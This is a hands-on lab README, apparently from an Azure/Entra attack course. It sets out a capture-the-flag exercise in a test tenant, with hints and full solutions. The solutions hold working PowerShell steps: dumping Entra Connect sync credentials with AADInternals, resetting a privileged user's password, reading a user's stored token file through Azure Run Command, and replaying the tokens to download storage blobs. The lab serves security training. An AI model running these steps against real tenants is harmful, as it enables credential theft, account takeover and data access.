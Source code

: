 # LAB 4 : Capture the Flag (CTF) Challenge

## Preparations
* **DO NOT** look at the scripts content / output

1. RDP login to DC VM using the YOURDOMAIN\\**rootuser**, then run the following script as admin (**when asked, login using the ENTRA CREDS (!) - you will be asked twice**)
    ```powershell
    # when asked, login using the ENTRA ADMIN CREDS (!)
    $tenantId = "YOUR_TENANT_ID" # you can get it here https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView
    Invoke-WebRequest -Uri "https://raw.githubusercontent.com/shackcrack007/hybrid-attacks-course-template/refs/heads/main/labs%20(for%20course%20sessions%2C%20not%20part%20of%20setup)/lab-4-full-attack-flow/lab4PreparationScript.ps1" -OutFile "C:\\lab4PreparationScript.ps1"; `
    & "C:\\lab4PreparationScript.ps1" -TenantID $tenantId
    ```
    Ignore errors such as "*cannot be created because function capacity 4096 has been exceeded for this scope*"..

2. RDP login to Win11 VM using the YOURDOMAIN\\**user1**, then run the following script as admin:
    ```powershell
    Invoke-WebRequest -Uri "https://raw.githubusercontent.com/shackcrack007/hybrid-attacks-course-template/refs/heads/main/labs%20(for%20course%20sessions%2C%20not%20part%20of%20setup)/lab-4-full-attack-flow/lab4Win11VmPrepScript.ps1" -OutFile "C:\\lab4Win11VmPrepScript.ps1"; `
        & "C:\\lab4Win11VmPrepScript.ps1"
    ```
    keep this window open in the background - **you're not allowed to use it from now on**

## Instructions: Start Here
1. Your goal is to find the `secret.txt` file 
2. forget everything you knew: from this point on you DON'T know what the Entra admin password is (i.e. what's the password of ``user1`` / ``rootuser`` / ``admin``..), and what the VMs passwords are
3. **DO NOT** password reset ``user1``
3. **Starting point:** as the attacker the only thing you have is the RDP session on the DC VM. Good luck! 

Do not use hints unless you really have to..

## Hints

<details>
    <summary><b>First hint: where the secret.txt file isn't stored</b></summary>

    The file isn't on any VM
</details>


<details>
    <summary><b>Entire attack path hint (use as last resort)</b></summary>

![entire_path](entire_path.png)
    1. Pass reset: DC vm -> reset pass of "user2" using Entra Sync credentials

    2. Login to Azure as that user using your browser

    3. Azure Portal Run Command on Win11 VM (the VM that has user1 logged on)

    4. Steal user1 PRT Cookie by running powershell script from the Run Command extension on the Azure portal 

    5. Use PRT Cookie to get access token and authenticate using PowerShell to MS Graph API read secret.txt from storage account
</details>



## Step 1

<details>
<summary><b>Hint 1</b></summary>
    
    1. Find a way to compromise a synced user in order to jump to the cloud

    2. Recon for roles / azure permissions to see which user you want to compromise

    3. it's not "user1"...
</details>


<details>
    <summary><b>Hint 2</b></summary>
    
    Abuse the Entra Connect password reset feature using AADInternals
</details>



<details>
<summary><b>Solution</b></summary>
on the DC VM:

```powershell
Import-Module AADInternals -RequiredVersion "0.9.4"
Get-AADIntSyncCredentials
```

Login using dumped Sync_XX account:
```powershell
# Prompt for credentials and retrieve & store access token to cache
# Enter your dumped Sync_XX account creds!
$at = Get-AADIntAccessTokenForAADGraph
$tenant = Get-AADIntSyncConfiguration -AccessToken $at # get the tenant ID

Connect-AzureAD -AadAccessToken $at -TenantId $tenant.TenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id
```

Enumerate users:
```powershell
# list on-premise, synced users with their roles
$onpremSyncedUsers = Get-AzureADUser -All $true | Where-Object { 
    $_.OnPremisesSecurityIdentifier -ne $null 
} 
$onpremSyncedUsers | ForEach-Object { 
    $user = $_; 
    Get-AzureADDirectoryRole | ForEach-Object { 
        $role = $_;
        Get-AzureADDirectoryRoleMember -ObjectId $role.ObjectId | Where-Object { $_.ObjectId -eq $user.ObjectId } | Select-Object @{Name='UserPrincipalName';Expression={$user.UserPrincipalName}}, @{Name='OnPremisesSecurityIdentifier';Expression={$user.OnPremisesSecurityIdentifier}}, @{Name='ImmutableId';Expression={$user.ImmutableId}}, @{Name='Role';Expression={$role.DisplayName}} 
    } 
} | Format-Table -Wrap -AutoSize

```
Target user2, as he holds a privileged role.. 

Reset the victim user's Entra password:
```powershell
Set-AADIntUserPassword -SourceAnchor "IMMUTABLE_ID" -Password "MYPASS"  -AccessToken $at -Verbose 
```
</details>


## Step 2

<details>
    <summary><b>Hint 1</b></summary>
    
    Login to Azure as that user and see what you have access to
</details>

<details>
    <summary><b>Hint 2</b></summary>

    You can find the virtual machine Win11 and using the Run Command extension execute PowerShell script on it
</details>


<details>
    <summary><b>Hint 3</b></summary>
    
    Use this ability to get a PRT Cookie so you can impersonate as that user and steal its identity and permissions
</details>

<details>
    <summary><b>Hint 4</b></summary>

    user1 is logged into that Win 11 vm, and he's a part of the company's red team, he continuously, on a regular basis, runs scripts from his Desktop folder to map their Entra tenant's attack surface. Use that to your advantage.
</details>

<details>
<summary><b>Solution</b></summary>

user1 uses roadrecon to map attack surfaces in his company's attack surface, the script is executed on a regular basis.
As we learned, roadrecon writes a file with the access token called `.roadtools_auth`, we can take that access token and steal it!

1. Login to portal.azure.com as user2
2. Run the following command on the Win11 VM from the Run Command Window in the Azure portal:
3. `type c:\users\user1\desktop\.roadtools_auth`


If the file is empty, then make sure `user1` is logged in properly:
1. RDP and login to the Win11 VM using the user `user1@YOURDOMAIN.onmicrosoft.com`
2. run `dsregcmd /status` and make sure you don't have "invalid".. fields, and that you see `AzureAdPrt : YES`
   ![prt](prtexists.png)
3. Make sure you are verified:
   1. open Edge and make sure you have your profile logged in
   2. go to Start -> Account Info and make sure you don't have any warning about not being verified, if you have then verify yourself.
      ![verify](verifyAccount.png)
4. if there's still an issue, restart the vm and login again
5. if it's still empty, rerun the task scheduler ![runTask](runTask.png)
</details>

## Step 3
<details>
    <summary><b>Hint 1</b></summary>
    
    Using the acquired access token, what can you do?
    You may use your own PC / DC VM
</details>

<details>
    <summary><b>Hint 2</b></summary>
    
    Recon as that user and see what he has access to..

```powershell
$at = "eyJ"... # what you've obtained from the Run Command hack
$userUPN = "user1@YOURDOMAIN.onmicrosoft.com" # you can get it from the access token if you'll parse in https://jwt.io
$tenantId = "YOUR_TENANT_ID" # you can get it here https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView


Connect-AzureAD -AccountId  $userUPN -TenantId $tenantId -AadAccessToken $at
Connect-AzAccount -AccountId  $userUPN -TenantId $tenantId -AccessToken $at 

# If it doesn't work, verify the access token— if it has expired, renew it by:
$refreshToken = <the refresh token from the `roadtools_auth` file>
$at=Get-AADIntAccessTokenWithRefreshToken -ClientId "1b730954-1685-4b74-9bfd-dac224a7b894" -Resource "https://graph.windows.net" -TenantId $tenantId -RefreshToken $refreshToken
```
</details>

<details>
    <summary><b>Hint 3</b></summary>
    
```powershell
# List current user's Azure Role Assignments using Azure PowerShell

$userObjectId = "686ebf9d-25..." # get it by parsing the JWT token and looking for the 'oid' field
$roleAssignments = Get-AzRoleAssignment -ObjectId $userObjectId
$roleAssignments | ForEach-Object {
    Write-Output "Role: $($_.RoleDefinitionName) - Scope: $($_.Scope)"
}
```
</details>

<details>
    <summary><b>Hint 4</b></summary>
    
    We can see that there's a storage account that this user has access to..
</details>


<details>
    <summary><b>Solution</b></summary>
    
```powershell
# Recon as that user and see what he has access to..
$at = "eyJ"... # what you've obtained from the Run Command hack
$userUPN = "user1@YOURDOMAIN.onmicrosoft.com" # you can get it from the access token if you'll parse in https://jwt.io
$tenantId = "YOUR_TENANT_ID" # you can get it here https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView


Connect-AzureAD -AccountId $userUPN -TenantId $tenantId -AadAccessToken $at
Connect-AzAccount -AccountId $userUPN -TenantId $tenantId -AccessToken $at 

# If it doesn't work, verify the access token— if it has expired, renew it by:
$refreshToken = <the refresh token from the `roadtools_auth` file>
$at=Get-AADIntAccessTokenWithRefreshToken -ClientId "1b730954-1685-4b74-9bfd-dac224a7b894" -Resource "https://graph.windows.net" -TenantId $tenantId -RefreshToken $refreshToken

# List current user's Azure Role Assignments using Azure PowerShell
$userObjectId = "686ebf9d-25..." # get it by parsing the JWT token and looking for the 'oid' field
$roleAssignments = Get-AzRoleAssignment -ObjectId $userObjectId
$roleAssignments | ForEach-Object {
    Write-Output "Role: $($_.RoleDefinitionName) - Scope: $($_.Scope)"
}
```
We can see that there's a storage account that this user has access to..
```powershell
# Get all storage accounts
$storageAccounts = Get-AzStorageAccount

foreach ($storageAccount in $storageAccounts) {
    Write-Output "Storage Account: $($storageAccount.StorageAccountName)"

    # Get the context for the storage account
    $context = $storageAccount.Context

    # List all containers in the storage account
    $containers = Get-AzStorageContainer -Context $context

    foreach ($container in $containers) {
        Write-Output "  Container: $($container.Name)"

        # List all blobs in the container
        $blobs = Get-AzStorageBlob -Container $container.Name -Context $context

        foreach ($blob in $blobs) {
            Write-Output "    Blob: $($blob.Name)"

            # Download the blob content to a temporary location
            $tempFilePath = Join-Path -Path $env:TEMP -ChildPath $blob.Name
            Get-AzStorageBlobContent -Blob $blob.Name -Container $container.Name -Context $context -Destination $tempFilePath -Force

            # Print the content of the blob
            $blobContent = Get-Content -Path $tempFilePath
            Write-Output "      Content: $blobContent"
        }
    }
}
```

### The content of "secret.txt" in storage account is your medal, mazal tov hacker cracker!

#### Bonus: 
Go back to the beginning, and try steal user2 identity using silver ticket (Seamless SSO) instead of password reset
</details>


## Don't forget
Once done, delete the lab resource groups to clean up the resources + the App Registration and its Enterprise App